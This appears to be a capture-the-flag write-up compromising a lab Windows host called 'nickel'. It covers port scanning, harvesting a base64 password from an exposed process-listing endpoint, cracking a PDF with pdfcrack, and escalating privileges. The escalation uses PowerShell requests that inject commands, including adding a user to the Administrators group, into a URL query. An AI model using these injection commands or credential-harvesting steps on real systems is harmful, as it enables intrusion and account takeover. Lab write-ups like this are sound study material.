# Network Enumeration

```bash
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8089/tcp  open  unknown
33333/tcp open  dgi-serv
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

## Ports get more information



# Port Enumeration

## Port 21

Can't login as anonymous



## Port 80

Return code 502.



## Port 5040 didn't get any response





## Port 8090

Port 8090 shows 3 buttons, but that will navigate to the 169's IP range port of 33333, can't access.




## Port 33333

When directly access 33333 port, the message return `Invalid Token`.



Also it's return if we use `GET` to access the `list-current-deployments`, `list-running-procs`, `list-avtive-nodes`.







So change the request method type to try. Then get response from `list-running-procs`.  `list-current-deployments` and `list-avtive-nodes` not response.



```powershell
HTTP/1.1 200 OK
Content-Length: 2725
Server: Microsoft-HTTPAPI/2.0
Date: Fri, 18 Aug 2023 02:36:44 GMT
Connection: close

name        : System Idle Process
commandline : 
name        : System
commandline : 
name        : Registry
commandline : 
name        : smss.exe
commandline : 
name        : csrss.exe
commandline : 
name        : wininit.exe
commandline : 
name        : csrss.exe
commandline : 
name        : winlogon.exe
commandline : winlogon.exe
name        : services.exe
commandline : 
name        : lsass.exe
commandline : C:\Windows\system32\lsass.exe
name        : fontdrvhost.exe
commandline : "fontdrvhost.exe"
name        : fontdrvhost.exx
commandline : "fontdrvhost.exe"
name        : dwm.exe
commandline : "dwm.exe"
name        : LogonUI.exe
commandline : "LogonUI.exe" /flags:0x2 /state0:0xa3bd2855 /state1:0x41c64e6d
name        : cmd.exe
commandline : cmd.exe C:\windows\system32\DevTasks.exe --deploy C:\work\dev.yaml --user ariah -p 
              "Tm93aXNlU2xvb3BUaGVvcnkxMzkK" --server nickel-dev --protocol ssh
name        : powershell.exe
commandline : powershell.exe -nop -ep bypass C:\windows\system32\ws8089.ps1
name        : powershell.exe
commandline : powershell.exe -nop -ep bypass C:\windows\system32\ws33333.ps1
name        : Memory Compression
commandline : 
name        : conhost.exe
commandline : \??\C:\Windows\system32\conhost.exe 0x4
name        : conhost.exe
commandline : \??\C:\Windows\system32\conhost.exe 0x4
name        : conhost.exe
commandline : \??\C:\Windows\system32\conhost.exe 0x4
name        : FileZilla Server.exe
commandline : "C:\Program Files (x86)\FileZilla Server\FileZilla Server.exe"
name        : sshd.exe
commandline : "C:\Program Files\OpenSSH\OpenSSH-Win64\sshd.exe"
name        : VGAuthService.exe
commandline : "C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"
name        : vm3dservice.exe
commandline : C:\Windows\system32\vm3dservice.exe
name        : vmtoolsd.exe
commandline : "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"
name        : vm3dservice.exe
commandline : vm3dservice.exe -n
name        : dllhost.exe
commandline : C:\Windows\system32\dllhost.exe /Processid:{02D4B3F1-FD88-11D1-960D-00805FC79235
name        : msdtc.exe
commandline : C:\Windows\System32\msdtc.exe
name        : WmiPrvSE.exe
commandline : C:\Windows\system32\wbem\wmiprvse.exe
name        : MicrosoftEdgeUpdate.exe
commandline : "C:\Program Files (x86)\Microsoft\EdgeUpdate\MicrosoftEdgeUpdate.exe" /c
name        : SgrmBroker.exe
commandline : 
name        : SearchIndexer.exe
commandline : C:\Windows\system32\SearchIndexer.exe /Embedding
name        : WmiApSrv.exe
commandline : C:\Windows\system32\wbem\WmiApSrv.exe
```

Get user `ariah` password is `Tm93aXNlU2xvb3BUaGVvcnkxMzkK` and this password is base64 encoded, so password is `NowiseSloopTheory139`, try to login as `ssh`. 



Login to user `ariah`.

# PE

Check the ftp folder.



There is a pdf file live in ftp. Use ftp to get this pdf file.



But this pdf was protected by password. So use `pdfcrack` to brute force.



Get the password is `ariah4168`.



The pdf file shows the notes, we know there is port of 80 open. Try to use curl to get some information.



Ah, we can know this service running as Administrator. So that can use that to PE.

Use the `Invoke-WebRequest` to get the output.

```powershell
$Resp = Invoke-WebRequest 'http://nickel/?whoami' -UseBasicParsing
$Resp = Invoke-WebRequest 'http://nickel/?net localgroup Administrators ariah /add' -UseBasicParsing
```



Now can login to ariah as administrator.




